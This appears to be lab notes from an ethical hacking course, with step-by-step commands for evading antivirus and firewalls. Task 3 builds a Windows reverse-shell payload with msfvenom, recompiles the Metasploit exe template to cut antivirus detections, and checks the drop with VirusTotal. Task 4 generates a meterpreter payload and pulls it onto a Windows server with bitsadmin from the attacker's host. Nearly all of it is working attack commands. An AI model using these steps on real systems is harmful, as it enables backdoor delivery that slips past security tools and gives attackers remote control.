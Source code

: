 
**Lab 2: Evade Firewalls using Various Evasion Techniques**
**Task 3: Bypass Antivirus using Metasploit Templates**

	[parrot]
		sudo su
		msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Windows.exe
	
	Firefox
	
		https://www.virustotal.com
		upload file and check for virus
		54/70 - virus detected
	
	Terminal
	
	pluma /usr/share/metasploit-framework/data/templates/src/pe/exe/template.c
	template.c file appears, change the payload size from 4096 to 4000, save the file
	cd /usr/share/metasploit-framework/data/templates/src/pe/exe/ 
	i686-w64-mingw32-gcc template.c -lws2_32 -o evasion.exe
	ls

New Terminal
generate a payload using new template

	msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=444 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/evasion.exe -f exe > 
	/home/attacker/bypass.exe

https://www.virustotal.com
upload file and check for virus
48 out of 71 antivirus vendors have detected the malicious file

---------------------------------
Task 4: Bypass Firewall through Windows BITSAdmin

	[Win 2019]	 
	control panel -> System and Security  ->Windows Defender Firewall ->Turn Windows Defender Firewall on or off ->Customize Settings  -> Turn on Windows Defender Firewall under Private network settings and Public network settings.

	[parrot]

	sudo su
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Exploit.exe 
	start apache & share

	[win 2019]
	launch powershell
	bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe
	c:\ -> check if file is transferred or not? [files are case sensitive]

attacker can use this malicious file for gaining access, escalating privileges and to perform various malicious other activities.